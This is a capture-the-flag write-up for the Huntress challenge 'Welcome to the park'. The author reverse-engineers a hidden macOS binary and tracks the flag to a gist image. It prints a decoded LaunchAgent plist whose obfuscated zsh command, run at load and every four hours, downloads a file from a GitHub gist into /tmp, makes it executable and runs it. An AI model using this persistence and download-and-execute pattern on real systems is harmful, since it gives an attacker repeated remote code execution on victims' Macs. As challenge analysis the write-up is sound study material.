


# Welcome to the park
## The creator of Jurassic Park is in hiding... amongst Mach-O files, apparently. Can you find him?

A file is included

---

Let's start with the file!

It looks like a MacOS program (? I really don't know)

If I go straight to `welcomeToThePark/welcome/.hidden` I find a binary file. Sus' !

# Reverse engineering

After decompiling the file I find this base64 encoded String which seems interesting. 




Decoding it gives me this and confirm I'm on the right way.

```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"><plist version="1.0"><dict><key>Label</key><string>com.huntress.ctf</string><key>ProgramArguments</key><array><string>/bin/zsh</string><string>-c</string><string>

A0b='tmp="$(m';
A0bERheZ='ktemp /tmp/XX';
A0bERheZX='XXXXXX)"';
A0bER='; curl --';
A0bE='retry 5 -f ';
A0bERh='"https://';
A0bERheZXDRi='gist.githu';
xbER='b.com/s';
juuQ='tuartjas';
juuQQ7l7X5='h/a7d18';
juuQQ7l7X5yX='7c44f4327';
juuQQ7l7X5y='739b752d037be45f01';
juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh</string></array><key>RunAtLoad</key><true /><key>StartInterval</key><integer>14400</integer></dict></plist>
```

After looking a bit I see that there's a github link. I admitted the script downloads a script from this link and place it in /tmp/ which is a typical sussy behaviour. 

After concatening all the string the link is `https://gist.github.com/stuartjash/a7d187c44f4327739b752d037be45f01`

All the comments are obviously (I got pranked) fake flags. The interesting thing is the jpg file.

I fed [Aperi'Solve](https://www.aperisolve.com/) with the file and found the flag in the string part!


